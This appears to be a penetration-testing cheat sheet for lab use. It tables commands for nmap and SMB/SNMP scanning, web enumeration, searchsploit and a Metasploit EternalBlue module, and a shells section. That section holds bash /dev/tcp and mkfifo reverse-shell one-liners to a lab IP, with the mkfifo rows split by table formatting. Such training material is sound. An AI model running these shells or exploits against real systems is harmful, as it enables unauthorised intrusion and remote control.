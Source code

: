 {% embed url="https://vimsheet.com/" %}

### **Pentesting**

| Command                                                                                                         | Description                                             |
| --------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------- |
| Service Scanning                                                                                                |                                                         |
| nmap 10.129.42.253                                                                                              | Run nmap on an IP                                       |
| nmap -sV -sC -p- 10.129.42.253                                                                                  | Run an nmap script scan on an IP                        |
| locate scripts/citrix                                                                                           | List various available nmap scripts                     |
| nmap --script smb-os-discovery.nse -p445 10.10.10.40                                                            | Run an nmap script on an IP                             |
| netcat 10.10.10.10 22                                                                                           | Grab banner of an open port                             |
| smbclient -N -L \\\\\\\10.129.42.253                                                                            | List SMB Shares                                         |
| smbclient \\\\\\\10.129.42.253\\\users                                                                          | Connect to an SMB share                                 |
| snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0                                                        | Scan SNMP on an IP                                      |
| onesixtyone -c dict.txt 10.129.42.254                                                                           | Brute force SNMP secret string                          |
| Web Enumeration                                                                                                 |                                                         |
| gobuster dir -u [http://10.10.10.121/](http://10.10.10.121/) -w /usr/share/dirb/wordlists/common.txt            | Run a directory scan on a website                       |
| gobuster dns -d [inlanefreight.com](http://inlanefreight.com) -w /usr/share/SecLists/Discovery/DNS/namelist.txt | Run a sub-domain scan on a website                      |
| curl -IL [https://www.inlanefreight.com](https://www.inlanefreight.com)                                         | Grab website banner                                     |
| whatweb 10.10.10.121                                                                                            | List details about the webserver/certificates           |
| curl 10.10.10.121/robots.txt                                                                                    | List potential directories in robots.txt                |
| ctrl+U                                                                                                          | View page source (in Firefox)                           |
| Public Exploits                                                                                                 |                                                         |
| searchsploit openssh 7.2                                                                                        | Search for public exploits for a web application        |
| msfconsole                                                                                                      | MSF: Start the Metasploit Framework                     |
| search exploit eternalblue                                                                                      | MSF: Search for public exploits in MSF                  |
| use exploit/windows/smb/ms17\_010\_psexec                                                                       | MSF: Start using an MSF module                          |
| show options                                                                                                    | MSF: Show required options for an MSF module            |
| set RHOSTS 10.10.10.40                                                                                          | MSF: Set a value for an MSF module option               |
| check                                                                                                           | MSF: Test if the target server is vulnerable            |
| exploit                                                                                                         | MSF: Run the exploit on the target server is vulnerable |
| Using Shells                                                                                                    |                                                         |
| nc -lvnp 1234                                                                                                   | Start a nc listener on a local port                     |
| bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'                                                             | Send a reverse shell from the remote server             |
| rm /tmp/f;mkfifo /tmp/f;cat /tmp/f                                                                              | /bin/sh -i 2>&1                                         |
| rm /tmp/f;mkfifo /tmp/f;cat /tmp/f                                                                              | /bin/bash -i 2>&1                                       |
| nc 10.10.10.1 1234                                                                                              | Connect to a bind shell started on the remote server    |